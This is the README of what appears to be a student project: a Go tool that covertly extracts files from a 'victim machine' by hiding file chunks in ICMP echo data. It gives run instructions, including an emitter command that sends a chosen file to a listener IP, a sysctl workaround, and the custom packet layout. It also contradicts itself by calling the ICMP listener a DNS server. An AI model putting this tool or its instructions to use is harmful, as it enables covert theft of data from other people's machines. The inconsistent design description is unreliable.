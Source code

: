 # ICMP Extraction

The objective is to build an extractor using the ICMP protocol.
The emitter and listener are built with GO to allow compilation on almost any OS.

## Disclaimers
I had some issues running on some os like windows due to the protocol not being implemented. 
And when I tried to use is on debian based VM it didn't work until I ran `sudo sysctl -w net.ipv4.ping_group_range="0   2147483647"`

Sadly I noticed this to late and I couldn't solve it on time.

## Let's run it !
The emitter executable needs to be sent to the target machine. It doesn't matter how.

Run the listener with `./listener`. It requires `sudo` privileges. 

Run the emitter on the victim machine and specify the ip of the listener as first argument and the file to extract as the second. 
(ex: `./emitter 10.1.1.15 /path/to/my/file`)

On debian based system, you might run into an issue, sadly I noticed it to late and couldn't solve it but as a workaround, 
you can execute the command `sudo sysctl -w net.ipv4.ping_group_range="0   2147483647"` on the machine

Then you should see logs arrive in the listener process. When it says `Recieved File`, the file has been received. 
That's mean that the file has been completely extracted and is now located in the `results` directory with a `.raw` 
(warning, if the listener was ran with administrator privileges, you will need to change the access on the file !).

## How it works

### The emitter

The emitter installed of the victim machine will send repetitive requests to the host machine using the ICMP protocol.
Each request will have the following format :
![ICMP request structure](icmp_request_structure.png)

The header is a classical ICMP message header but the data is customised.
It is split into 3 sections.

1. The identifier of the file in 4 bytes. The identifier is generated to favor uniqueness
2. The request index. There is no delay between each request so to ensure the order, we add an index to each message
3. The payload. The par t of the file which is sent in this message.

Whe the whole file is sent, a stop message is sent with the same id as the package, 0 as the request index
and `###STOP###` (encoded in binary) as the payload.

### The listener

The listener is simply a DNS server that knows no records. For non Stop message, it save the file in the `results` directory. It keeps
one file per request.
Whe the stop request is received. All the files are read and concatenate into a single file that will be located in
the `results` directory.

*Theoretically*, any number of file can be received at the same time as long as they can be handled by the listener.



